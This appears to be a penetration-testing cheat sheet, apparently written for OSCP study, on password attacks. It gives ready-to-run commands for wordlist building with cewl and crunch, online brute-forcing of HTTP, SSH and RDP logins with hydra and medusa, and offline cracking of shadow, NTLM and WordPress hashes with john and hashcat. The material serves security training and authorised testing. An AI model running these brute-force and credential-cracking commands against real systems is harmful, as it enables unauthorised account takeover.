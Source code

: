 # Password Attacks

## references

<http://gchq.github.io/CyberChef/>
<http://openwall.info/wiki/john/sample-hashes>

## dictionary

```bash
/usr/share/wordlists/
/usr/share/seclist/

cewl www.megacorpone.com -m 6 -w megacorpone-cewl.txt
john --wordlist=megacorpone-cewl.txt --rules --stdout > megacorpone-john.txt

crunch 6 8 -f /usr/share/crunch/charset.lst mixalpha-numeric-all-space -o crunch.txt
```

## online

### crackstation

<https://crackstation.net/>

### medusa

```bash
medusa -d
medusa -M http -q

medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin -T 10

```

### hydra

```bash
hydra -l george -P ~/OSCP/rockyou.txt -s 2222 ssh://192.168.161.201
hydra -L ./user.txt -p "SuperS3cure1337#" rdp://192.168.161.202

hydra -l admin -P ~/OSCP/rockyou.txt 192.168.161.201 http-get 

hydra -l admin -P ~/OSCP/rockyou.txt 192.168.161.201 http-post-form "/index.php:fm_usr=^USER^&fm_pwd=^PASS^:Login failed"
hydra 10.1.0.2 http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid Password!" -l admin -P /usr/share/wordlists/rockyou.txt -t 10 -w 30 -o hydra-http-post-form.txt
```

## offline

### john

```bash
unshadow /etc/passwd /etc/shadow > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

### hashcat

```bash
hashcat --help | grep -ni ntlm
hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule

hashcat --help | grep -ni \$p 
hashcat -m 400 wp.hash ~/OSCP/rockyou.txt 
```
